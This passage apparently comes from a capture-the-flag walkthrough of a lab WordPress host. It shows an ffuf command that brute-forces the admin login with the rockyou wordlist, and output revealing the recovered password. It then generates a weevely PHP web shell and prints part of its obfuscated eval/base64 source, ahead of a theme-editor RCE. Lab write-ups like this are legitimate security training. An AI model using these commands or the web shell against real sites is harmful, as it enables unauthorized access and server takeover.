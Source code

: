 Try brute force weak passwords

```bash
ffuf -c -w /opt/wordlists/rockyou.txt -request login.req -request-proto http -v -fr "is incorrect"
```

```bash
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 709ms]
| URL | http://internal.thm/blog/wp-login.php
| --> | http://internal.thm/blog/wp-login.php?redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&action=confirm_admin_email&wp_lang=en_US
    * FUZZ: my2boys
```

Login

![](/assets/obsidian/9493cc67f9d5497c3eb51b71b71bd8e7.png)


### Shell as www-data

> https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress

There are two methods to RCE after getting in wordpress admin dashboard

- Panel RCE
- Plugin RCE


#### Wordpress Them Editor to RCE

```bash
┌──(kali㉿kali)-[~/thm/internal/www]
└─$ weevely generate s s
Generated 's' with password 's' of 761 byte size.

┌──(kali㉿kali)-[~/thm/internal/www]
└─$ cat s
<?php
$m='eg_matECch("/$kh(.EC+)$kf/EC",@file_geECECt_contents("pEChpEC://inpuECt"),$m)==EC1) {ECEC@ob_start()';
$v=';@ob_enECd_cEClean();$r=EC@bECase64_eECncode(EC@x(@gzcomECpECressEC($o),$ECk));print("$ECpEC$kh$r$kf");}';
$e=';@eECval(EC@gzunECcompreECss(@xEC(@bECaECse64_decode(EC$ECm[1]EC),$k)));$o=@ob_gECetEC_conECtents()';
```